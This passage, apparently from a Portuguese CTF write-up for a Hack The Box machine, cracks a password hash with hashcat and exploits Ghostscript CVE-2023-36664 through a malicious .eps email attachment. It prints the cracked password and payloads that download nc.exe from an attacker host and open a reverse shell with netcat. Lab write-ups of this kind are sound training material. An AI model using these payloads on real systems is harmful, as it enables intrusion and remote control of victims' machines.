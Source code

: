 Utilizando o hashcat, iremos quebrar a hash.

```
hashcat hash.txt rockyou.txt
```
O resultado foi:
```
$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:qwe123!@#
```
Com isso, será possível acessar o endereço ``10.10.11.241:443`` com o usuário do drwilliams.
<br>
![](https://i.imgur.com/u9SADJm.png)

Esse sistema é referente a envios de e-mails. Caso o sistema não tenha sido desenvolvido corretamente, uma das formas de explorar vulnerabilidades nesses sistemas é utilizando GhostScript em arquivos .eps.

Para explorar essa vulnerabilidade iremos utilizar um código injetável referente ao [CVE-2023-36664](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection?source=post_page-----edd713d784bb--------------------------------).

Primeiramente, iremos inicar um servidor http para que o nosso alvo faça o download do netcat.exe, da seguinte forma:
```
python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)...
```

Após isso, iremos realizar o nosso primeiro payload de um aquivo .eps solicitando para que o servidor baixe do nosso servidor o nc.exe.

```
python3 CVE_2023_36664_exploit.py --inject --payload "curl 10.10.14.159:8000/nc.exe -o nc.exe" --filename file.eps
```

Após isso, enviaremos esse arquivo file.eps como anexo a um e-mail ao Drbrown. (Favor, relevar o bug dos icones, isso não deveria ter acontecido :DD)

![](https://i.imgur.com/SPUwOxM.png)

Após isso, vamos configurar o nc.exe que enviamos anteriormente com o endereço e porta da nossa máquina e enviaremos novamente esse arquivo em anexo.

```
python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe 10.10.14.159 4444 -e cmd.exe" --filename file.eps
```

Após isso, iremos realizar um novo arquivo inserindo o chamado ao nosso shell reverso.
```
python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe 10.10.14.159 4444 -e nc.exe" --filename file.eps
```

Antes de enviar o próximo e-mail, inicie o seu netcat.
```
nc -lvnp 4444
listening on [any] 4444 ...
```
